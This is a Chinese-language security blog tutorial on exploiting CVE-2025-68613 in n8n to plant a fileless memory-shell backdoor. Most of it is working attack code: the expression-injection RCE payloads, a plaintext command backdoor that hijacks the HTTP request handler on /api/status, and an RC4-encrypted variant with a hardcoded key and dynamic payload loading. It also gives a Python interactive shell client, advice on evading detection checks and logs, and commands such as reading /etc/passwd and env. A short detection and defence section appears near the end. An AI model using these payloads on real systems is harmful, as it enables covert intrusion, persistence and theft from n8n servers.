





> **安全警告**: 本文档包含真实攻击技术，仅用于授权的安全测试和研究。未经授权使用是违法行为。


首发于先知社区：[https://xz.aliyun.com/news/91000](https://xz.aliyun.com/news/91000)


## **1. 内存马原理与生成过程**


### **1.1 什么是内存马**


**内存马** (Memory Shell / Memshell) 是一种无文件攻击技术，通过在目标进程的内存中注入恶意代码，实现持久化控制，而不在磁盘上留下任何文件痕迹。


### **传统后门 vs 内存马**


| **特性** | **传统后门** | **内存马**  |
| ------ | -------- | -------- |
| 文件痕迹   | ✅ 写入磁盘   | ❌ 仅在内存   |
| 持久性    | 进程重启后仍存在 | 进程重启后失效  |
| 检测难度   | 低（文件扫描）  | 高（需内存分析） |
| 部署方式   | 上传文件     | 代码注入     |
| 隐蔽性    | ⭐⭐       | ⭐⭐⭐⭐⭐    |


### **1.2 n8n环境下的内存马特点**


### **Node.js/Express架构**


n8n基于Node.js和Express框架，具有以下特点：


```text
┌─────────────────────────────────┐
│      n8n Application            │
├─────────────────────────────────┤
│  Express App (this.app)         │
│    ↓                            │
│  Router Stack (_router.stack)   │
│    ├─ Middleware 1              │
│    ├─ Middleware 2              │
│    └─ Route Handlers            │
├─────────────────────────────────┤
│  HTTP Server                    │
│    ↓                            │
│  Request Event Handler          │
│    (server._events.request)     │
└─────────────────────────────────┘
```


### **关键可劫持点**

1. **HTTP服务器事件** - `server._events.request`
2. **Express中间件栈** - `app._router.stack`
3. **全局对象** - `global.*`
4. **进程句柄** - `process._getActiveHandles()`

### **1.3 完整生成流程**





### **1.4 技术实现原理**


### **步骤1: 获取require函数**


```text
// 通过RCE漏洞访问
var mainModule = this.process.mainModule;
var require = mainModule.require;

// 为什么可行？
// - this 在IIFE中指向data上下文
// - data.process 包含真实的process对象引用
// - process.mainModule 是主模块
// - mainModule.require 是完整的require函数
```


### **步骤2: 定位HTTP服务器**


```text
// 获取所有活动的handle
var handles = this.process._getActiveHandles();

// 遍历查找HTTP Server
for (var i = 0; i < handles.length; i++) {
    var h = handles[i];
    // HTTP Server特征：有_events.request属性
    if (h && h._events && h._events.request) {
        httpServer = h;
        break;
    }
}
```


**为什么这样可行？**


Node.js的HTTP服务器会被注册为活动handle，通过 `_events.request` 可以识别其类型。


### **步骤3: 劫持请求处理器**


```text
// 保存原始handler
var originalHandler = httpServer._events.request;

// 创建新handler（包含后门逻辑）
httpServer._events.request = function(req, res) {
    // 1. 检查是否是后门请求
    if (req.url.indexOf('/api/status') === 0) {
        // 2. 执行恶意操作
        execSync(command);
        // 3. 返回结果
        res.end(result);
        return;
    }

    // 4. 正常请求传递给原始handler
    return originalHandler.call(this, req, res);
};
```


**关键点**:

- 所有HTTP请求都会先经过我们的handler
- 后门请求被拦截处理
- 正常请求透明传递，不影响业务

### **步骤4: RC4加密通信实现**


```text
function rc4(key, data) {
    // 1. 初始化S盒
    var s = [];
    for (var i = 0; i < 256; i++) {
        s[i] = i;
    }

    // 2. 密钥调度算法 (KSA)
    var j = 0;
    for (var i = 0; i < 256; i++) {
        j = (j + s[i] + key.charCodeAt(i % key.length)) % 256;
        [s[i], s[j]] = [s[j], s[i]];  // 交换
    }

    // 3. 伪随机生成算法 (PRGA)
    var i = 0, j = 0;
    var output = [];
    for (var idx = 0; idx < data.length; idx++) {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        [s[i], s[j]] = [s[j], s[i]];  // 交换
        var t = (s[i] + s[j]) % 256;
        output[idx] = data[idx] ^ s[t];  // XOR加密
    }

    return output;
}
```


**加密流程**:


```text
明文命令 → RC4加密 → Base64编码 → HTTP传输
         ↓
HTTP接收 → Base64解码 → RC4解密 → 执行命令
         ↓
执行结果 → RC4加密 → Base64编码 → HTTP响应
```


### **1.5 持久化机制**


### **进程级持久化**


```text
// 存储在全局对象中
global.ge0b8a = {
    process: function(data) {
        // 持久化的执行器
        return execSync(data.toString());
    }
};

// 优势：
// 1. 跨请求访问
// 2. 动态更新功能
// 3. 内存中不可见
```


### **动态Payload注入**


```text
if (global.ge0b8a === undefined) {
    // 首次请求：注入payload
    var payloadCode = decrypted.toString();
    var tmpPayload = new Function(payloadCode)();
    global.ge0b8a = tmpPayload;
}

// 后续请求：直接使用
var result = global.ge0b8a.process(decrypted);
```


### **1.6 关键技术挑战与解决**


### **挑战1: Buffer对象不可用**


**问题**: 在表达式环境中 `Buffer` 不是全局对象


**解决**:


```text
var Buffer = require('buffer').Buffer;
```


### **挑战2: Constructor检测**


**问题**: 代码中的 `.constructor` 会触发安全检测


**解决**: 使用对象特征而非类型名称


```text
// ❌ 触发检测
if (h.constructor.name === 'Server')

// ✅ 绕过检测
if (h._events && h._events.request)
```


### **挑战3: POST Body解析**


**问题**: Express的body-parser可能已消费body


**解决**: 在中间件之前劫持，手动解析


```text
req.on('data', function(chunk) {
    body += chunk.toString();
});

req.on('end', function() {
    var json = JSON.parse(body);
    // 处理...
});
```


### **1.7 架构设计**


### **分层架构**


```text
┌─────────────────────────────────────┐
│     应用层 (Application Layer)       │
│  - Python客户端                      │
│  - 命令加密/解密                     │
└─────────────────────────────────────┘
              ↓ HTTP/HTTPS
┌─────────────────────────────────────┐
│     传输层 (Transport Layer)         │
│  - Base64编码                        │
│  - JSON包装                          │
└─────────────────────────────────────┘
              ↓
┌─────────────────────────────────────┐
│     加密层 (Encryption Layer)        │
│  - RC4算法                           │
│  - 密钥: 3c6e0b8a9c15224a            │
└─────────────────────────────────────┘
              ↓
┌─────────────────────────────────────┐
│     劫持层 (Hijack Layer)            │
│  - HTTP Request Handler              │
│  - 路由匹配: /api/status             │
└─────────────────────────────────────┘
              ↓
┌─────────────────────────────────────┐
│     执行层 (Execution Layer)         │
│  - global.ge0b8a.process()           │
│  - child_process.execSync()          │
└─────────────────────────────────────┘
```


### **数据流**


```text
客户端命令 "whoami"
    ↓
RC4加密: [0x7A, 0xA8, 0xF5, 0x5D, 0x2E, 0x3A]
    ↓
Base64编码: "7Kj1XS46"
    ↓
JSON封装: {"data": "7Kj1XS46"}
    ↓
HTTP POST → n8n服务器
    ↓
Request Handler拦截
    ↓
Base64解码 → RC4解密 → "whoami"
    ↓
execSync("whoami") → "node\n"
    ↓
RC4加密 → Base64编码
    ↓
JSON响应: {"data": "9a/+WUk="}
    ↓
客户端解密 → "node\n"
```


### **1.8 安全绕过技术**


### **绕过1: 表达式安全检测**


```text
// n8n的安全检测
const constructorValidation = new RegExp(/\.\\s*constructor/gm);

// 绕过方法：
// 1. 不使用.constructor
// 2. 使用对象特征检测
// 3. 使用typeof判断
```


### **绕过2: 环境隔离**


```text
// 问题：表达式在沙箱中执行
// 解决：通过this.process突破沙箱
var mainModule = this.process.mainModule;  // ✅
var mainModule = process.mainModule;       // ❌ 可能失败
```


### **绕过3: 日志检测**


```text
// 使用隐蔽的端点名
'/api/status'     // 看起来像状态检查
'/health-monitor' // 看起来像健康监控
'/system-check'   // 看起来像系统检查

// 避免敏感关键词
// ❌ '/backdoor', '/shell', '/hack'
// ✅ '/api/status', '/health', '/monitor'
```


### **1.9 生成流程实战演示**


### **阶段1: RCE验证**


```text
{{
    (function() {
        // 测试RCE
        return this.process.mainModule.require('child_process')
            .execSync('whoami', {encoding: 'utf8'});
    })()
}}
```


**输出**: `node`


### **阶段2: 定位HTTP服务器**


```text
{{
    (function() {
        var handles = this.process._getActiveHandles();
        var serverFound = false;

        for (var i = 0; i < handles.length; i++) {
            if (handles[i]._events && handles[i]._events.request) {
                serverFound = true;
                break;
            }
        }

        return 'HTTP Server found: ' + serverFound;
    })()
}}
```


**输出**: `HTTP Server found: true`


### **阶段3: 植入基础后门**


```text
{{
    (function() {
        // 完整的内存马植入代码
        // （见第4章节）
        return JSON.stringify({success: true});
    })()
}}
```


### **阶段4: 验证后门**


```text
curl "http://localhost:5678/api/status?cmd=whoami"
```


**输出**: `{"ok":true,"data":"node\n"}`





### **阶段5: 升级到加密版本**


```text
{{
    (function() {
        // RC4加密版本
        // （见第5章节）
        return JSON.stringify({success: true, encrypted: true});
    })()
}}
```


### **1.10 原理总结**


内存马的本质是**进程内存劫持**，通过以下步骤实现：

1. **突破沙箱** - 利用RCE访问真实的process对象
2. **定位目标** - 找到HTTP服务器实例
3. **劫持入口** - 替换请求处理函数
4. **透明代理** - 在处理后门请求后继续正常业务
5. **持久化** - 将payload存储在global对象
6. **加密通信** - 使用RC4保证通信隐蔽性

**优势**:

- ✅ 无文件落地
- ✅ 难以检测
- ✅ 不影响业务
- ✅ 功能强大

**限制**:

- ❌ 进程重启失效
- ❌ 需要RCE前提
- ❌ 可被运行时检测

---


## **2. 漏洞分析**


---


## **1. 漏洞分析**


### **CVE-2025-68613: n8n 表达式注入 RCE**


**漏洞版本**: n8n < v1.122.0  
**CVSS评分**: 10.0 (严重)  
**状态**: 已验证


### **核心漏洞**


三个安全缺陷的组合利用：

1. **IIFE 的** **`this`** **上下文未清理** - 主要漏洞
2. **反引号绕过 constructor 检测**
3. **`process`** **对象暴露环境变量**

### **攻击流程**


```text
用户输入恶意表达式
         ↓
{{ (function() { ... })() }}
         ↓
Expression.resolveSimpleParameterValue()
         ↓
创建 data 上下文 (包含 process 对象)
         ↓
Tournament.execute()
         ↓
函数以 data 作为 this 执行
         ↓
this.process.mainModule.require
         ↓
访问 child_process 模块
         ↓
execSync() 执行系统命令
         ↓
🔥 完整 RCE！
```


### **基础RCE测试**


```text
{{
    (function() {
        return this.process.mainModule.require('child_process')
            .execSync('id', {encoding: 'utf8'}).trim();
    })()
}}
```


**预期输出**: `uid=1000(n8n) gid=1000(n8n) groups=1000(n8n)`





---


## **2. 环境准备**


### **2.1 启动n8n实例**


```text
# Docker方式
docker run -it --rm \
  --name n8n \
  -p 5678:5678 \
  -e N8N_BLOCK_ENV_ACCESS_IN_NODE=false \
  n8nio/n8n:1.120.3
```


### **2.2 验证漏洞**

1. 访问 `http://localhost:5678`
2. 创建新工作流

	

3. 添加 "Set" 节点,编辑fields

	

4. 执行基础RCE测试载荷

---


## **3. 基础内存马**


### **3.1 简单Web后门 (推荐入门)**


**特点**: GET请求，明文命令，易于使用


```text
{{
    (function() {
        try {
            var mainModule = this.process.mainModule;
            var require = mainModule.require;
            var execSync = require('child_process').execSync;

            var handles = this.process._getActiveHandles();
            var httpServer = null;

            for (var i = 0; i < handles.length; i++) {
                var h = handles[i];
                if (h && h._events && h._events.request) {
                    httpServer = h;
                    break;
                }
            }

            if (!httpServer) {
                return JSON.stringify({success: false, error: 'Server not found'});
            }

            var originalReqHandler = httpServer._events.request;

            httpServer._events.request = function(req, res) {
                if (req.url && req.url.indexOf('/api/status') === 0) {
                    var match = req.url.match(/[?&]cmd=([^&]+)/);
                    if (match && match[1]) {
                        try {
                            var cmd = decodeURIComponent(match[1]);
                            var output = execSync(cmd, {encoding: 'utf8', timeout: 10000});
                            res.writeHead(200, {'Content-Type': 'application/json'});
                            res.end(JSON.stringify({ok: true, data: output}));
                            return;
                        } catch(e) {
                            res.writeHead(500, {'Content-Type': 'application/json'});
                            res.end(JSON.stringify({ok: false, err: e.message}));
                            return;
                        }
                    }
                }

                return originalReqHandler.call(this, req, res);
            };

            return JSON.stringify({
                success: true,
                message: 'Simple backdoor installed',
                endpoint: '/api/status?cmd=<command>',
                test: 'curl "http://localhost:5678/api/status?cmd=whoami"'
            }, null, 2);

        } catch(err) {
            return JSON.stringify({success: false, error: err.message});
        }
    })()
}}
```


### **3.2 使用方法**


```text
# 测试后门
curl "http://localhost:5678/api/status?cmd=whoami"

# 预期输出
{"ok":true,"data":"node\n"}
```


### **3.3 常用命令**


```text
# 系统信息
curl "http://localhost:5678/api/status?cmd=uname -a"

# 当前目录
curl "http://localhost:5678/api/status?cmd=pwd"

# 列出文件
curl "http://localhost:5678/api/status?cmd=ls -la"

# 环境变量
curl "http://localhost:5678/api/status?cmd=env"

# 读取文件
curl "http://localhost:5678/api/status?cmd=cat /etc/passwd"
```


---


## **4. 高级加密内存马**


｜哥斯拉的内存马，我没调试成功，有哪位师傅成功了，可以留个言，感谢！


### **4.1 RC4加密版本**


**特点**:

- ✅ RC4加密通信
- ✅ Base64编码传输
- ✅ 动态Payload注入
- ✅ 持久化Handler
- ✅ 支持GET和POST双模式

```text
{{
    (function() {
        try {
            var mainModule = this.process.mainModule;
            var require = mainModule.require;
            var execSync = require('child_process').execSync;
            var Buffer = require('buffer').Buffer;

            // RC4加密算法
            function rc4(key, data) {
                var s = [], k = [];
                var i, j = 0, tmp;
                for (i = 0; i < 256; i++) {
                    s[i] = i;
                    k[i] = key.charCodeAt(i % key.length);
                }
                for (i = 0; i < 256; i++) {
                    j = (j + s[i] + k[i]) % 256;
                    tmp = s[i]; s[i] = s[j]; s[j] = tmp;
                }
                i = j = 0;
                var out = [];
                for (var idx = 0; idx < data.length; idx++) {
                    i = (i + 1) % 256;
                    j = (j + s[i]) % 256;
                    tmp = s[i]; s[i] = s[j]; s[j] = tmp;
                    var t = (s[i] + s[j]) % 256;
                    out[idx] = data[idx] ^ s[t];
                }
                return Buffer.from(out);
            }

            var handles = this.process._getActiveHandles();
            var httpServer = null;

            for (var i = 0; i < handles.length; i++) {
                var h = handles[i];
                if (h && h._events && h._events.request) {
                    httpServer = h;
                    break;
                }
            }

            if (!httpServer) {
                return JSON.stringify({success: false, error: 'Server not found'});
            }

            var originalHandler = httpServer._events.request;

            httpServer._events.request = function(req, res) {
                var isBackdoor = false;

                if (req.url && (req.url === '/api/status' || req.url.indexOf('/api/status?') === 0 || req.url.indexOf('/api/status/') === 0)) {
                    isBackdoor = true;
                }

                if (isBackdoor && req.method === 'POST') {
                    var body = '';

                    req.on('data', function(chunk) {
                        body += chunk.toString();
                    });

                    req.on('end', function() {
                        try {
                            var json = JSON.parse(body);
                            var key = '3c6e0b8a9c15224a';

                            if (json.data) {
                                var encrypted = Buffer.from(json.data, 'base64');
                                var decrypted = rc4(key, encrypted);

                                var g = global;

                                if (g.ge0b8a === undefined) {
                                    try {
                                        var payloadCode = decrypted.toString();
                                        var tmpPayload = new Function(payloadCode)();
                                        if (typeof tmpPayload === 'object' && typeof tmpPayload.process === 'function') {
                                            g.ge0b8a = tmpPayload;
                                        }
                                    } catch(e) {}
                                }

                                var result;
                                if (g.ge0b8a !== undefined) {
                                    result = g.ge0b8a['process'].call(g.ge0b8a, decrypted);
                                } else {
                                    var cmd = decrypted.toString();
                                    result = execSync(cmd, {encoding: 'utf8', timeout: 10000});
                                }

                                var resultBuffer = Buffer.isBuffer(result) ? result : Buffer.from(result);
                                var encryptedResult = rc4(key, resultBuffer);

                                res.writeHead(200, {'Content-Type': 'application/json'});
                                res.end(JSON.stringify({data: encryptedResult.toString('base64')}));
                                return;
                            }
                        } catch(e) {
                            res.writeHead(500, {'Content-Type': 'application/json'});
                            res.end(JSON.stringify({data: null, error: e.message}));
                            return;
                        }

                        res.writeHead(200, {'Content-Type': 'application/json'});
                        res.end(JSON.stringify({data: null}));
                    });

                    return;
                }

                // GET方式（简化）
                if (isBackdoor && req.method === 'GET') {
                    var match = req.url.match(/[?&]cmd=([^&]+)/);
                    if (match && match[1]) {
                        try {
                            var cmd = decodeURIComponent(match[1]);
                            var output = execSync(cmd, {encoding: 'utf8'});
                            res.writeHead(200, {'Content-Type': 'application/json'});
                            res.end(JSON.stringify({ok: true, data: output}));
                            return;
                        } catch(e) {
                            res.writeHead(500, {'Content-Type': 'application/json'});
                            res.end(JSON.stringify({ok: false, err: e.message}));
                            return;
                        }
                    }

                    res.writeHead(200, {'Content-Type': 'application/json'});
                    res.end(JSON.stringify({
                        status: 'ready',
                        encrypted: global.ge0b8a !== undefined,
                        methods: ['GET ?cmd=xxx', 'POST with encrypted data']
                    }));
                    return;
                }

                return originalHandler.call(this, req, res);
            };

            return JSON.stringify({
                success: true,
                message: 'RC4 encrypted backdoor installed',
                endpoints: {
                    simple: 'GET /api/status?cmd=whoami',
                    encrypted: 'POST /api/status with RC4',
                    test: 'GET /api/status'
                },
                key: '3c6e0b8a9c15224a'
            }, null, 2);

        } catch(err) {
            return JSON.stringify({
                success: false,
                error: err.message,
                stack: err.stack
            });
        }
    })()
}}
```


### **4.2 植入步骤**

1. **在n8n工作流中执行上述POC**

**成功输出**:


```text
{
  "success": true,
  "message": "RC4 encrypted backdoor installed",
  "endpoints": {
    "simple": "GET /api/status?cmd=whoami",
    "encrypted": "POST /api/status with RC4",
    "test": "GET /api/status"
  },
  "key": "3c6e0b8a9c15224a"
}
```

1. **测试GET方式**:

```text
curl "http://localhost:5678/api/status?cmd=whoami"
```

1. **使用Python客户端测试POST加密**

---


## **5. 客户端工具**


### **5.1 交互式Shell**


保存为 `n8n_shell.py`:


```text
#!/usr/bin/env python3
"""n8n RC4 Encrypted Interactive Shell"""
import requests
import base64
import sys

def rc4(key, data):
    s = list(range(256))
    k = [ord(key[i % len(key)]) for i in range(256)]
    j = 0
    for i in range(256):
        j = (j + s[i] + k[i]) % 256
        s[i], s[j] = s[j], s[i]
    i = j = 0
    o = bytearray()
    for b in data:
        i = (i + 1) % 256
        j = (j + s[i]) % 256
        s[i], s[j] = s[j], s[i]
        o.append(b ^ s[(s[i] + s[j]) % 256])
    return bytes(o)

def exec_cmd(url, cmd, key='3c6e0b8a9c15224a'):
    encrypted = rc4(key, cmd.encode())
    r = requests.post(url, json={'data': base64.b64encode(encrypted).decode()})
    if r.status_code == 200 and r.json().get('data'):
        return rc4(key, base64.b64decode(r.json()['data'])).decode('utf-8', errors='ignore')
    return None

if __name__ == '__main__':
    url = 'http://localhost:5678/api/status'

    if len(sys.argv) > 1:
        # 单命令模式
        result = exec_cmd(url, ' '.join(sys.argv[1:]))
        if result:
            print(result, end='')
    else:
        # 交互模式
        print('n8n Encrypted Shell v1.0')
        print('Type "exit" to quit\n')

        while True:
            try:
                cmd = input('n8n> ')
                if cmd.lower() in ['exit', 'quit']:
                    break
                if cmd.strip():
                    result = exec_cmd(url, cmd)
                    if result:
                        print(result, end='')
            except KeyboardInterrupt:
                print('\nBye!')
                break
            except Exception as e:
                print(f'Error: {e}')
```


### **5.2 使用方法**


```text
# 赋予执行权限
chmod +x n8n_shell.py

# 交互模式
./n8n_shell.py

# 单命令模式
./n8n_shell.py whoami
./n8n_shell.py "ls -la /"
./n8n_shell.py "cat /etc/passwd"
```


---


## **6. 检测与防御**


### **6.1 检测内存马**


在n8n中执行检测代码：


```text
{{
    (function() {
        var info = {
            backdoorDetected: false,
            details: []
        };

        // 检查global对象
        if (global.ge0b8a) {
            info.backdoorDetected = true;
            info.details.push('Found global.ge0b8a payload');
        }

        // 检查HTTP服务器
        if (this.process._getActiveHandles) {
            var handles = this.process._getActiveHandles();
            for (var i = 0; i < handles.length; i++) {
                var h = handles[i];
                if (h && h._events && h._events.request) {
                    var handler = h._events.request.toString();
                    if (handler.indexOf('api/status') > -1 ||
                        handler.indexOf('rc4') > -1 ||
                        handler.indexOf('execSync') > -1) {
                        info.backdoorDetected = true;
                        info.details.push('Suspicious HTTP request handler detected');
                    }
                    break;
                }
            }
        }

        return JSON.stringify(info, null, 2);
    })()
}}
```


### **6.2 清除内存马**


**方法1**: 重启进程


```text
docker restart n8n
```


**方法2**: 代码清除（如果可能）


```text
{{
    (function() {
        // 删除global payload
        if (global.ge0b8a) {
            delete global.ge0b8a;
        }

        return 'Memory shell removed (requires process restart for full cleanup)';
    })()
}}
```


### **6.3 防御建议**


### **立即措施**

1. **升级到 n8n >= v1.122.0**
2. **设置环境变量**:

	```text
	export N8N_BLOCK_ENV_ACCESS_IN_NODE=true
	```

3. **限制工作流创建权限**
4. **启用审计日志**

### **长期措施**

1. **部署WAF/RASP**
2. **容器化隔离**
3. **定期安全审计**
4. **监控异常HTTP路由**

---


## **7. 总结**


### **7.1 攻击链总览**


```text
CVE-2025-68613 RCE
        ↓
基础命令执行
        ↓
HTTP服务器劫持
        ↓
简单Web后门
        ↓
RC4加密通信
        ↓
企业级内存马
```


### **7.2 特性对比**


| **特性** | **基础版** | **加密版**    |
| ------ | ------- | ---------- |
| 通信加密   | ❌       | ✅ RC4      |
| 编码方式   | 明文      | Base64     |
| 访问方式   | GET     | GET + POST |
| 隐蔽性    | ⭐⭐⭐     | ⭐⭐⭐⭐⭐      |
| 使用复杂度  | 低       | 中          |
| 检测难度   | 中       | 高          |
| 推荐场景   | 快速测试    | 生产渗透       |


---


## **8. 快速参考**


### **8.1 部署流程**


```text
# 1. 在n8n中执行POC（基础或高级）
# 2. 测试GET方式
curl "http://localhost:5678/api/status?cmd=whoami"

# 3. 使用Python客户端（加密版）
python3 n8n_shell.py
```


### **8.2 常用命令**


```text
# 系统信息
whoami
id
uname -a

# 文件操作
pwd
ls -la
cat /etc/passwd

# 网络
ifconfig
netstat -tulnp

# 进程
ps aux
```


### **8.3 故障排除**


| **问题**           | **解决方案**                      |
| ---------------- | ----------------------------- |
| Constructor错误    | 避免使用 `.constructor`           |
| POST 404         | 检查URL路径和body解析                |
| Buffer undefined | 添加 `require('buffer').Buffer` |
| 返回null           | 检查加密key和数据格式                  |


---


## **附录**


### **参考资源**

- [**https://www.resecurity.com/jp/blog/article/cve-2025-68613-remote-code-execution-via-expression-injection-in-n8n-2**](https://www.resecurity.com/jp/blog/article/cve-2025-68613-remote-code-execution-via-expression-injection-in-n8n-2)
- CVE-2025-68613 n8n 表达式注入 RCE 漏洞完整分析- [**https://github.com/intbjw/CVE-2025-68613-poc-via-copilot**](https://github.com/intbjw/CVE-2025-68613-poc-via-copilot)
- n8n官方文档
- RC4算法实现
- Node.js HTTP模块文档
